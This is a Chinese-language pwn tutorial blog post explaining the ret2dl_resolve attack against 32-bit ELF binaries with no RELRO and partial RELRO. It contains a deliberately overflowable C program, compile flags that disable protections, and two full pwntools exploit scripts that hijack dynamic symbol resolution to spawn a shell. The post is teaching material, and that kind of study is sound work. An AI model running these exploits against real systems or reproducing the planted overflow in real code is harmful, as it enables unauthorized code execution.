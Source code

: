```yaml
---
title: Relro!
date: 2018-05-12 20:26:51
tags: pwn
layout: post
---
```

pwn by using dl_resolver
<!--more-->
# Relro


### #本文为个人根据[winesap的社课][1]的try
    对于动态链接lazy binding在winesap的社课中已经说得非常清楚
    在这里不作过多赘述。

## 0x00 Relro
    #[A_paper_about_how_to_pwn_by_using_dl_resolver][2]

    relro 是一种用于加强对 binary 数据段的保护的技术。relro 分为 partial relro 和 full relro.gcc的默认是开partial.论文中涉及了对3种程度保护的理论上的攻击方法.由于时间有限和能力不足，只对no和partial进行实现；如有不正之处请予以指正@@338_5518_6880@qq.com@@

## 0x01 Binary:
```c
#include<stdio.h>
#include<unistd.h>
#include<string.h>
char buf[1000000];
void m()
{
char local[10];
int len=read(0,buf,sizeof(buf));
memcpy(local,buf,len);
}
int main()
{
m();
}
```
## 0x02 编译命令：
```
gcc raw.c -o part -no-pie -fno-stack-protector -m32
gcc raw.c -o no -no-pie -fno-stack-protector -Wl,-z,norelro -m32 
```

## 0x03 No
思路：
```
因为Dynstr是可以写的，我们只需要改写Dynstr表来将某一函数错误解析到system上
所以我们需要
1.改写Dynstr
2.Call plt0
```
exploit：
```python
from pwn import * 
context.log_level='critical'
dynamic=0x080496c0
dynstr_addr=dynamic+0x8*8+0x4
p3r=0x08048519
dynstr=0x804820c
plt0=0x80482d0
memcpy=0x80482f0
bss=0x8049800
data_addr=bss+1024

rop=flat(
memcpy,p3r,dynstr_addr,data_addr,4,
plt0,0x8,
memcpy,0xdeadbeef,data_addr+0xc
)
data=flat(
data_addr+4-(0x804822b-0x804820c),
"system\x00\x00",
"/bin/sh\0"
)
payload=("A"*26+rop).ljust(1024,'\0')+data
p=process("./no")
if False:
	gdb.attach(p,'''
	b *0x8048483
	c
	''')
p.sendline(payload)
p.interactive();
```
## 0x04 partial
思路：

![](/2018_5_12.png)
```
既然无法更改那几个table
那就伪造一个较大的reloc_arg使得:reloc_arg+rel.plt===>你可以写的位置A
然后在A处构造fake elf32_rel==>{somewhere we can write,info}
然后在B处即(info>>8)*16+dynstr处构造dynsym==>{a,b,c,d}
a+str指向我们可以写的地址我们在那里写入system\0
bcd参照其他的原来func的数值可用gdb查知
```
exploit:
```python
from pwn import *
memcpy=0x8048310
p3r=0x08048539
p2r=0x0804853a
pr=0x080482ed
ret=0x080482d6
dynmic=0x8049f14
rel_plt=0x80482b4
dynstr=0x804822c
dynsym=0x80481cc
bss=0x804a040
data_addr=0x804a140
plt0=0x80482f0
rop=flat(
plt0,0x1e8c,
0xdeadbeef,data_addr+36#address of bin/sh/
)
data=flat(
[0x804a040,0x7+(((data_addr+0xc-dynsym)/16)<<8)],0xdeadbeef,#rel
[data_addr+28-dynstr,0,0,0x12],#sym
"system\0\0",
"/bin/sh\0"
)
payload=("A"*26+rop).ljust(256,'\0')+data
p=process("./part")
if False:
	gdb.attach(p,'''
	b *0xf7fead8b
	c
	''')
p.sendline(payload)
p.interactive()
```
## 0x05 Full
思路:
![](/2018_5_12_1.png)

## 0x06 ：
适用于
在无法泄露或者泄露值无法得知的时候
工具利用先mark一下:[Mark][3]

 
[1]: https://www.youtube.com/watch?v=wsIvqd9YqTI
[2]: https://github.com/n132/banana/blob/master/Pwn/papers/dl_resolver.pdf
[3]: https://blog.betamao.me/2017/10/15/XDCTF-2015-Pwn200/